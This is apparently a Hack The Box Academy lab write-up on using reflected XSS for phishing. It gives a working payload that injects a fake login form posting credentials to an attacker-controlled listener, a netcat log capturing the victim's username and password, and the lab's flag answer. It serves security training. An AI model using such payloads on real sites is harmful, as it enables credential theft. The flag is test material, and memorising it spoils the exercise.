



# Section 07: Phishing

Module: 19. Cross-Site Scripting (XSS)

---

## Questions & Answers

### 1. Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.

Context:
- Find the vulnerability, tried `http://10.129.203.218/phishing/index.php?url=x`, check the page source got:
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <title>Online Image Viewer</title>
</head>

<body style="background-color: #141d2b; font-family: sans-serif; color: white;">
    <center>
        <h1>Online Image Viewer</h1>
        <div class="form-group">
            <form role="form" action="index.php" method="GET" id='urlform'>
                <input type="text" placeholder="Image URL" name="url">
            </form>
            <br>
                    </div>
    </center>
</body>

</html>
```
- Our payload will be injected to `'>`, inject the payload: `x' onerror=alert(document.title)>`

- Confirmed the XSS works, now create the login form payload:
```html
'><h3>Please login to continue</h3><form action=http://10.10.15.173:88><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><script>document.getElementById('urlform').remove()</script><!-- 
```

- Get the credentials:
```bash

┌─[eu-academy-2]─[10.10.15.173]─[htb-ac-2162140@htb-tsgfrvwojz-htb-cloud-com]─[~]
└──╼ [★]$ sudo nc -lvnp 88
Listening on 0.0.0.0 88
Connection received on 10.129.203.218 60664
GET /?username=admin&password=p1zd0nt57341myp455&submit=Login HTTP/1.1
Host: 10.10.15.173:88
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: HTBXSS/1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.129.203.218/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```


**Answer:** `HTB{r3f13c73d_cr3d5_84ck_2_m3}`

---

[Back to Module Index](./README.md)
